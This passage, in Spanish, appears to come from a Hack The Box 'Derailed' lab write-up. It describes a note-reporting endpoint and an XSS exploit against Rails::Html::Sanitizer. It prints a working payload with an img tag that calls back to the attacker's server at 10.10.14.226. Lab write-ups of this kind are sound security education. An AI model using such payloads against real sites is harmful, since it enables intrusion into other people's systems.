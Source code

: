 ## /report 

En /report podemos reportar una nota para que un administrador la revise, con esto podemos pensar en un CSRF (Client-Site Request Forgery)

![](/assets/img/HTB/Derailed/report.png)

# Explotación

## XSS 

Después de buscar información por internet, encontré [este](https://groups.google.com/g/rubyonrails-security/c/ce9PhUANQ6s?pli=1) CVE, que es un XSS exploit para Rails::Html:Sanitizer, el exploit es el siguiente:

```html
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa<select<style/><img src='http://10.10.14.226/xss'>
```

Al enviar el payload, recibimos una petición en nuestro servidor HTTP

![](/assets/img/HTB/Derailed/xss.png)
